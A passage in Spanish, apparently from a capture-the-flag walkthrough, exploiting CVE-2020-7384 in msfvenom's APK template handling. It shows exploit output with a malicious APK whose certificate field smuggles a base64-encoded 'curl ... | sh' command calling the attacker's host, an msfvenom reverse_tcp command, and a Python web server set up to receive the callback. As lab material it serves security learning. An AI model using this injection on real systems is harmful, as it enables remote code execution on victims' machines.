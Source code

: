 ```python
```
{% endcode %}

Una vez tengamos el exploit modificado, lo ejecutaremos y comprobaremos que se nos genera un archivo `APK` malicioso. Para realizar la explotación, la víctima deberá ejecutar `msfvenom` con nuestro archivo `APK` malicioso.

```bash
❯ python3 CVE-2020-7384.py
[+] Manufacturing evil apkfile
Payload: curl http://10.10.14.2/gzzcoo
-dname: CN='|echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMi9nenpjb28= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp1drlqg5d/evil.apk
Do: msfvenom -x /tmp/tmp1drlqg5d/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

❯ ls -l /tmp/tmp1drlqg5d/evil.apk
.rw-rw-r-- kali kali 1.9 KB Sun Mar  2 17:11:37 2025  /tmp/tmp1drlqg5d/evil.apk
```

Levantaremos un servidor web con Python para realizar la prueba de la confirmación de la vulnerabilidad.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el apartado de `payloads` dejaremos la siguiente configuración y en `template file` subiremos el `evil.apk` que contiene nuestre payload malicioso. Le daremos a la opción de `generate`.

<figure><img src="../../.gitbook/assets/5276_vmware_JPoM0pnDYm.png" alt=""><figcaption></figcaption></figure>

